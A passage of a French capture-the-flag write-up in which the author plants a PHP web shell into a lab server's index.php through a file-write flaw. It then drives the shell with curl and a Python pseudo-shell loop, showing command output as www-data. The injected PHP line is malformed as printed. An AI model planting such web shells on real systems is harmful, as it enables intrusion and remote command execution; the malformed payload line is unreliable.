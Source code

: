 A l'abordage !
--------------

Après avoir testé quelques chemins absolus j'obtiens une écriture avec les modifications suivantes dans mon script :  

```python
injection = '/* yoyo */'
output_file = "/var/www/html/scriptz/php.js"
```

Ok, maintenant il s'agit d'injecter du code PHP et il ne faut pas se louper car si on introduit une erreur de syntaxe dans le index.php ça va être dûr à rattraper :|   

```python
injection = '---START---<?php system($_POST["cmd"?>---END---'
output_file = "/var/www/html/index.php"
```

Et on est bon ! On peut maintenant exécuter un ls avec la commande *curl --data "cmd=ls" http://192.168.1.43/index.php*  

Je code un pseudo shell pour la route :   

```python
import requests
from requests.exceptions import RequestException

while True:
    command = input("$ ")
    if command.lower().strip() == "exit":
        break

    response = requests.post(
        "http://192.168.1.43/index.php",
        data={"cmd": command}
    )

    if "---START---" in response.text:
        output = response.text.split("---START---")[1]
        output = output.split("---END---")[0]
        print(output)
```

Chasse au trésor !
------------------

```plain
devloop$ python shell.py
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

$ ls /home
rene
```

Il y a un utilisateur *rene* (par rapport à [Magritte](https://fr.wikipedia.org/wiki/La_Trahison_des_images) autour duquel tourne le CTF)  

